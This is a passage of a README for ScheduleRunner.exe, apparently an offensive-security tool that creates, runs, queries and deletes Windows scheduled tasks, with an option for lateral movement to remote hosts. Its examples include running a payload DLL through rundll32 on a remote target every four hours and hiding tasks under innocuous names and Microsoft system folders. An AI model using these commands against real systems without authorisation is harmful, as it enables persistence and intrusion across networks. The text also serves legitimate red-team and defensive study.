 [*] are mandatory fields.

## Options for scheduled task lateral movement (/method:move):
|  Method | Function  |
| ---------------- | ---------------- |
| [*] /taskname | Specify the name of the scheduled task |
| [*] /program | Specify the program that the task runs |
| [*] /remoteserver | Specify the hostname or IP address of a remote computer |
| /trigger | Specify the schedule type. The valid values include: "minute", "hourly", "daily", "weekly", "onstart", "onlogon", and "onidle" |
| /modifier | Specify how often the task runs within its schedule type. Applicable only for schedule type such as "minute" (e.g., 1-1439 minutes), "hourly" (e.g., 1-23 hours) and "weekly" (e.g., mon,sat,sun) |
| /starttime | Specify the start time for daily schedule type (e.g., 23:30) |
| /argument | Specify the command line argument for the program |
| /folder | Specify the folder where the scheduled task stores (default: \\) |
| /author | Specify the author of the scheduled task |
| /description | Specify the description for the scheduled task |
| /user | Run the task with a specified user account |

[*] are mandatory fields.

## Example
**Create a scheduled task called "Cleanup" that will be executed every day at 11:30 p.m.**

`ScheduleRunner.exe /method:create /taskname:Cleanup /trigger:daily /starttime:23:30 /program:calc.exe /description:"Some description" /author:netero1010`

**Create a scheduled task called "Cleanup" that will be executed every 4 hours on a remote server**

`ScheduleRunner.exe /method:create /taskname:Cleanup /trigger:hourly /modifier:4 /program:rundll32.exe /argument:c:\temp\payload.dll /remoteserver:TARGET-PC01`

**Delete a scheduled task called "Cleanup"**

`ScheduleRunner.exe /method:delete /taskname:Cleanup`

**Execute a scheduled task called "Cleanup"**

`ScheduleRunner.exe /method:run /taskname:Cleanup`

**Query details for a scheduled task called "Cleanup" under "\Microsoft\Windows\CertificateServicesClient" folder on a remote server**

`ScheduleRunner.exe /method:query /taskname:Cleanup /folder:\Microsoft\Windows\CertificateServicesClient /remoteserver:TARGET-PC01`

**Query all scheduled tasks under a specific folder "\Microsoft\Windows\CertificateServicesClient" on a remote server**
